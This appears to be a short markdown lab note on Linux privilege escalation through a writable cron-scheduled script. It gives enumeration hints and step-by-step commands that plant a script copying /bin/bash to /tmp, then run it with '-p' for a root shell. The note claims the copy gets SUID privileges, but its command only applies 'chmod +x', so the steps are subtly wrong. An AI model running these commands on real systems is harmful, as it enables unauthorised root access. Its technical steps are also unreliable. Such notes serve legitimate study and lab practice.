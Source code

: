 # Escalation via Scheduled task (Cron)

## Path

### Enumeration

- We have to check in the crontab for example with `cat /etc/crontab` if we can not read this file we still could check other ways to enumerate scheduled task using [payload all the things documentation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#scheduled-tasks) or an enumeration tool like linpeas
- In our example the system will try to run a file that does not exist (if we ls in home/user we do not see it)   
![image](https://user-images.githubusercontent.com/96747355/170375060-4d8fc104-2b34-4dc8-82e1-86eefe247b1b.png)  
- So we can try to create a file named overwrite.sh and make it escalate privileges

### Exploitation

- `echo 'cp /bin/bash /tmp/bash; chmod +x /tmp/bash' > /home/user/overwrite.sh` we create our overwrite file. Our script will create a bash with suid priv
- `chmod +x /home/user/overwrite.sh` we need to make it executable
- `/tmp/bash -p` we execute it and we get root  
![image](https://user-images.githubusercontent.com/96747355/170377045-4b98a2fb-2d52-43ea-bfc7-1b84f8d78e5a.png)  

## Wildcards

**COMING SOON**
